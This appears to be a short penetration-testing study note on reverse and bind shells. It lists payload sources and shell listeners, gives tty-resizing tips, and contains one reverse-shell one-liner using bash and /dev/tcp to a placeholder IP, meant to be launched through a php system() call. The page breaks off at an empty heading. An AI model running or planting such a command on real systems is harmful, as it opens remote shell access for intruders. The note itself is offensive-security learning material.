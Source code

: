 **Tags:** #type/method #tactic/command-and-control 

---
2 types of shells:
- Reverse shells: target connects to your pc - generally better
- Bind shells: your pc connects to target
# Payload sources
- Payload all the things repo: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- Pentestmonkey: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- Secists: https://github.com/danielmiessler/SecLists
- Metasploit:  [[3 Tools/Metasploit framework/msfvenom]]: one stop shop for all kind of payloads
# reverse shell receivers
- [[3 Tools/shells/Netcat]]: simple, by default very unstable
- [[3 Tools/shells/Socat]]: very powerful, but difficult to use
- Metasploit - multi/handler: very stable
# general tips:
manually adjust tty size, to be able to use editors,...:
`stty -a` for tty info (run in your own terminal)
then set the same values for remote shell on target machine:
`stty rows <number>`  
and
`stty cols <number>`

If you create shell using e.g. a php system() call it is sometimes necessary to first start a full bash process and then start the reverse shell inside that bash process: `bash -c "bash -i >& /dev/tcp/192.168.x.x/4444 0>&1"`
# stabilisation


